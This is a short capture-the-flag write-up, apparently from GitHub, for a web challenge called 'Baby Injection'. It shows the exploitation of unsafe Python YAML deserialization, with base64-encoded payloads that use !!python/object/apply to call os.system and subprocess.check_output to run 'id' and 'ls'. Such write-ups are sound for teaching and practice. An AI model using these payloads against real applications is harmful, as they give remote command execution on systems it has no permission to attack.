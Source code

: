 name : Baby Injection

Author : badhacker0x1

Des : Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?

Solve : 
enter the url : 
http://172.105.121.246:5990/

First : 
see the endpoint base64 !! 

![image](https://github.com/user-attachments/assets/976e5bf2-164a-4229-b64e-98eaaaa4c628)


and decrypt it : 
![image](https://github.com/user-attachments/assets/895376f6-43ea-4188-9207-92e9260fefc9)

secoun : 
try yaml Injection

```
yaml: !!python/object/apply:os.system ["id"]
```
to base64 
```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImlkIl0=
```
![image](https://github.com/user-attachments/assets/9d9f13f1-d3e5-41fc-895e-3c19bfe33c39)

Ok !! try to see srting 

```
yaml: !!python/object/apply:subprocess.check_output [["id"]]
```
to base64 

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFtbImlkIl1d
```

![image](https://github.com/user-attachments/assets/bbbfe718-f18e-43d3-b707-7ca9485a4b29)

Ok  Done !!!

try : 
```
yaml: !!python/object/apply:subprocess.check_output [["ls"]]
```
to Base64 : 
```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFtbImxzIl1d
```
and the flag is : 

![image](https://github.com/user-attachments/assets/88dfd5c1-48d0-4846-b151-a13b95f44a76)

